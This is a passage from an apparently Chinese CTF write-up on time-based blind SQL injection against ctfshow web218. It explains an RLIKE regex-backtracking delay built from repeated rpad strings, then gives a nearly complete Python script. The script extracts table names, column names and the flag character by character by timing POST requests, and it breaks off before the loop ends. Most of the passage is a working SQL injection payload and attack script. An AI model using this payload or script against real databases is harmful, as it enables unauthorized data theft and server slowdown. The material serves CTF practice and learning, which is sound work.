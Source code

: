 ```
        break
```

### RLIKE REGEXP正则匹配

通过`rpad`或`repeat`构造长字符串，加以计算量大的pattern，通过repeat的参数可以控制延时长短

```
concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'
```

这个payload的值就约等于sleep(5)，但是通过题目测试发现延时很小，所以把timeout也改小点，严重怀疑可能是sleep(0.5)，这是ctfshow web218的脚本：

```
import requests
import time


url="http://982d6f48-bb6d-4823-8236-29009a00f0d6.challenge.ctf.show/api/"
flag=''
for i in range(1,200):
    low=32
    high=128
    mid=(low+high)//2
    while low<high:
        # payload="0)or if((ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{}),(concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) rlike '(a.*)+(a.*)+b'),1)#".format(i,mid)
        # payload="0)or if((ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'),{},1))>{}),(concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) rlike '(a.*)+(a.*)+b'),1)#".format(i,mid)
        payload="0)||if((ascii(substr((select group_concat(flagaac) from ctfshow_flagxc),{},1))>{}),(concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) rlike '(a.*)+(a.*)+b'),1)#".format(i,mid)
        
        data={
            "ip":payload,
            "debug":0
        }
        time1=time.time()
        r=requests.post(url,data=data)
        time2=time.time()
        
        print(low,mid,high)
      

        if time2-time1>0.5:
            low=mid+1
        else:
            high=mid
        mid=(low+high)//2
    flag+=chr(mid)
    print(flag)
    if mid==32:
```